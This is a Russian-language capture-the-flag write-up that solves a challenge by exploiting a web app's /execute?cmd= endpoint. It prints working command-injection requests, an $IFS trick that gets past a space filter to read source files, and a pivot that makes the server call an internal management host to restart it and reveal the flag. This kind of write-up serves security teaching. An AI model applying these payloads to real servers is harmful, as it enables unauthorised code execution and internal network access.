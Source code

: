 # Планетарная важность

В этом задании нам предстоит перезагрузить сайт. Просмотрев исходный HTML главной страницы, наше внимание сразу привлекает данный фрагмент JS кода:

```js
$('#statusButton').click(function () {
    $.get('/execute?cmd=get-status', function (data) {
        $('.result').text(data);
        $('.modal').show();
    });
});
```

Исходя из названий, складывается впечатление, что при нажатии на кнопку, на сервер отправляется команда для выполнения, а затем возвращается результат. Давайте проверим:

```bash
$ curl https://its-broken-jncn4dyj.spbctf.ru/execute?cmd=pwd
/home/app
```

Ура так, и есть! Теперь надо осмотреться:

```bash
$ curl https://its-broken-jncn4dyj.spbctf.ru/execute?cmd=ls
README.md
main.py
requirements.txt
templates
```

И получим исходники:

```bash 
$ curl -G https://its-broken-jncn4dyj.spbctf.ru/execute --data-urlencode 'cmd=cat main.py'
/bin/sh: 1: cat+main.py: not found
```

Не беда, обойдем с помощью переменной IFS (Internal Field Separator):

```bash
$ curl 'https://its-broken-jncn4dyj.spbctf.ru/execute?cmd=cat$IFS"main.py"'
import subprocess
from urllib.parse import urlparse

from flask import Flask, request, render_template, abort, redirect, url_for

app = Flask(__name__)
...

```

Ничего интересного, а вот в **README.md** содержит инструкцию к перезагрузке:

    Для перезагрузки приложения выполните

    ```bash
    curl http://management:5000/restart/
    ```

```bash
$ curl 'https://its-broken-jncn4dyj.spbctf.ru/execute?cmd=curl$IFS"http://management:5000/restart/">/tmp/h;'
$ curl 'https://its-broken-jncn4dyj.spbctf.ru/execute?cmd=cat$IFS/tmp/h;'
Success! Go to /060648ac9456adba9740f7b2b119abf2bcf194c2/ to get flag

$ curl https://its-broken-jncn4dyj.spbctf.ru/060648ac9456adba9740f7b2b119abf2bcf194c2/ | grep its
<p class="result">its{yoU_54VED_hUMaNi7Y_fRoM_A_MEt3or173_FAll_w17h_RcE}</p>
```
